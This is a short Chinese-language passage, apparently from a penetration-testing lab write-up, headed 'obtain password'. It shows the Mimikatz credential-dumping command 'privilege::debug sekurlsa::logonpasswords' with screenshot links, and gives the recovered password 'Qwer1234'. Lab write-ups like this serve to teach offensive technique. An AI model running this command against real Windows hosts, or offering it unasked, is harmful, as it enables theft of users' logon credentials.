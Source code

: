 ![img](assets/1695035085453-dfb49563-d930-49be-8d7f-e005230d79dd.png)
获取密码

```
privilege::debug sekurlsa::logonpasswords
```

![img](assets/1695035085568-edf21be1-0296-40d0-992d-a03641ed4c52.png)
密码为Qwer1234
